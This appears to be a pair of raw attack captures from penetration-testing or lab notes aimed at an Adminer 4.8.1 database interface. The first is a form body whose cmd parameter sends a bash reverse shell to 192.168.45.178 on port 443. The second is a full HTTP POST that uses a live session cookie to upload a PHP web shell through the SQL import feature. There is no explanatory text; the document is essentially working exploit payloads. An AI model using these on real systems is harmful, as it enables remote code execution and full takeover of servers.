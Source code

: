 ````
authenticity_token=U%2FJaPjmyotmZ3naPc7Iw%2B5FwSGBkFmr6DlMTJqWmE9a7AX1%2B7HKngOYcEehoo%2F4Xo3NDkGa%2FJK2OzVFYTcpMxA%3D%3D&cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.45.178%2F443+0%3E%261
````

````
POST /db/?clickhouse=localhost&username=admin&db=evil&import= HTTP/1.1
Host: 192.168.193.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.193.109/db/?clickhouse=localhost&username=admin&db=evil&import=
Content-Type: multipart/form-data; boundary=---------------------------399488293235751044031263878276
Content-Length: 623
Origin: http://192.168.193.109
Connection: close
Cookie: adminer_permanent=; adminer_settings=defaults%3D1; adminer_engine=MergeTree; adminer_sid=u78erfhdgia68p3qiul0bicsgn; adminer_key=d146d6a494537a572ef3222fec668a40; adminer_version=4.8.1
Upgrade-Insecure-Requests: 1

-----------------------------399488293235751044031263878276
Content-Disposition: form-data; name="sql_file[]"; filename="cmd.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>

-----------------------------399488293235751044031263878276
Content-Disposition: form-data; name="error_stops"

1
-----------------------------399488293235751044031263878276
Content-Disposition: form-data; name="only_errors"

1
-----------------------------399488293235751044031263878276
Content-Disposition: form-data; name="token"

738807:409982
-----------------------------399488293235751044031263878276--

````
